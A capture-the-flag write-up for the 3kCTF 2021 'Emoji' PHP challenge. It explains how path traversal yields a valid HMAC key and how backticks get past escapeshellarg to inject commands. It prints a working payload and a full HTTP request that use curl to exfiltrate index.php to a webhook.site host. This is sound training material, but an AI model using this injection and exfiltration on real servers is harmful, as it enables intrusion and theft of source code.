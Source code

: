 ## Emoji

Ok so we have the following php code to bypass:

```php
<?php
        $secret = "*REDACTED*";
        $flag   = "3k{*REDACTED*}";

        function fetch_and_parse($page){
                $a=file_get_contents("https://raw.githubusercontent.com/3kctf2021webchallenge/downloader/master/".$page.".html");
                preg_match_all("/<img src=\"(.*?)\">/", $a,$ma);
                return $ma;
        }

        $url = @$_GET['url'];
        $key = @$_GET['key'];
        $dir = @$_GET['dir'];
        if($dir){
                $emojiList = fetch_and_parse($dir);
        }elseif ($url AND $key) {
                if($key === hash_hmac('sha256', $url, $secret)){
                        $d = "bash -c \"curl -o /dev/null ".escapeshellarg("https://raw.githubusercontent.com/3kctf2021webchallenge/downloader/master/".$url)."  \"";
                        exec($d);
                        echo '<script>alert("file download requested");</script>';      
                }else{
                        echo '<script>alert("incorrect download key");</script>';
                }

        }


?>
``` 

### Part 1

Since we need to generate a valid sha256 we need to first create a repo in git, then place a file like test.html with an image like:
```
<img src=" ; curl https://webhook.site/7448b9f1-9cdd-416c-8d0f-5b56d8424e3a">
```

The contents inside the src will be the payload for the second part.
In order to grab the file contents in order to generate a valid hmac we need to send the following request:

`GET /?dir=../../../<your_user>/<repo_name>/refs/heads/master/test HTTP/1.1`

It will then generate a key that will then be used in the second part.

Note: tried timing attacks for the hmac function but didnt sucessed

### Part 2 - Bypass escapeshellarg

So we have a way to get our payload in the curl command but we cant use a common command injection because it has a php function that escapes special characters. Meaning that any special character will be replace with `\<special_Char>`.

Well that was what i thought but its wrong the character `\`` is not escaped and allows to run another command inside it. 
Like: 

```
`curl https://webhook.site/7448b9f1-9cdd-416c-8d0f-5b56d8424e3a`
```

So, since we want to exfiltrate the infex.php we change the html with the following:

```html
<img src=" `curl https://webhook.site/7448b9f1-9cdd-416c-8d0f-5b56d8424e3a -d @index.php`">
```

The following http payload for this specific url is: 

```
GET /?url=%20`curl%20https://webhook.site/7448b9f1-9cdd-416c-8d0f-5b56d8424e3a%20-d%20@index.php`&key=fdc1712b1fe8a6c46f1c035018d37465a59adeb917b361d570ea2ee79fed1b7a HTTP/1.1
```

After accessing webhook.site we see that the data body has the contents:

![alt text](image.png)

Flag: `flag{bbbf197270485722f0cd7d44911ea74e}`

This was the comment that gave the answer: https://www.php.net/manual/en/function.escapeshellarg.php#66430

I found a github resource that has a couple of payload to bypass this functions: https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md

